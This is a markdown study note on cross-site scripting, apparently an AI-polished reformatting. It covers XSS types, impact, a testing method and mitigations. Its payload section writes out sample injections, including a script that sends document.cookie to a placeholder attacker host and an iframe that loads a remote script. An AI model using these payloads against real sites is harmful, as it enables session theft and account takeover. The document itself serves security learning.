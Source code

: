 Here's the enhanced and spell-checked version of your `XSS.md` file with improved formatting:

```markdown
# 🎯 Cross-Site Scripting (XSS) 
*Web vulnerability where attackers inject malicious scripts into trusted websites*

---

## 📖 Table of Contents
- [📜 Definition](#-definition)
- [🔀 Types of XSS](#-types-of-xss)
- [💥 Impact](#-impact)
- [🔍 Testing Methodology](#-testing-methodology)
- [📌 Common Payloads](#-common-payloads)
- [📚 Resources](#-resources)

---

## 📜 Definition
XSS (Cross-Site Scripting) is an injection vulnerability where attackers execute malicious JavaScript in a victim's browser, often for:
- Session hijacking 🕵️
- Phishing attacks 🎣
- Defacement 🏴

---

## 🔀 Types of XSS

| Type              | Description                                                                 | Risk Level |  
|--------------------|-----------------------------------------------------------------------------|------------|  
| **🔄 Stored XSS**   | Malicious script is **stored** on the server (e.g., comments/user profiles). Executes when victims view infected pages. | Critical   |  
| **🎯 Reflected XSS**| Script is **reflected** in immediate server responses (e.g., search results). Requires social engineering.             | High       |  
| **🌐 DOM-based XSS**| Client-side attack exploiting unsafe JavaScript DOM manipulation. No server interaction.                              | High       |  

---

## 💥 Impact
- **Cookie/session theft** 🍪  
- **Account takeover** 👑  
- **Keylogging** ⌨️  
- **Content spoofing** 🎭  
- **Redirection to malicious sites** ➡️ 

---

## 🔍 Testing Methodology
1. **Identify Input Points**:  
   - Search bars 🔍  
   - Comment sections 💬  
   - User profiles (bio/username) 👤  
   - URL parameters (e.g., `?id=<payload>`) 🌐  

2. **Test for Reflection**:  
   - Inject a unique string (e.g., `cupcakes123`) and check:  
     - Page content 🔎  
     - HTML source code (`Ctrl+U`) 📄  
     - Network responses (DevTools) 🌐  

3. **Escalate with Payloads**:  
   ```html
   <script>alert(1)</script>                 <!-- Classic test -->
   <img src=x onerror="alert(document.cookie)">  <!-- Cookie theft demo -->
   ```

---

## 📌 Common Payloads
### Basic Tests
```html
<script>alert(1)</script>
"><svg/onload=confirm(1)>
```

### Advanced Attacks
```html
<!-- Steal cookies -->
<script>fetch('https://attacker.com?cookie='+document.cookie)</script>

<!-- Redirect to phishing site -->
<iframe src="javascript:document.write('<script src=//evil.site/xss.js></script>')">
```

📖 Full Cheat Sheet: [XSS Payload Masterlist](https://gist.github.com/kurobeats/9a613c9ab68914312cbb415134795b45)

---

## 📚 Resources
| Resource | Description | Link |  
|----------|-------------|------|  
| **Beyond XSS** | Advanced exploitation techniques | [aszx87410.github.io](https://aszx87410.github.io/beyond-xss/en/) |  
| **PortSwigger Labs** | Hands-on XSS practice | [portswigger.net](https://portswigger.net/web-security/cross-site-scripting) |  
| **OWASP XSS Guide** | Defense strategies | [owasp.org](https://owasp.org/www-community/attacks/xss/) |  

---

## 🛡️ Mitigation
- **Sanitize Inputs**: Remove/escape HTML tags.  
- **Use CSP Headers**:  
  ```http
  Content-Security-Policy: default-src 'self'
  ```
- **Avoid Unsafe Functions**:  
  ```javascript
  // UNSAFE ❌
  element.innerHTML = userInput;
  
  // SAFE ✅
  element.textContent = userInput;
  ```

---
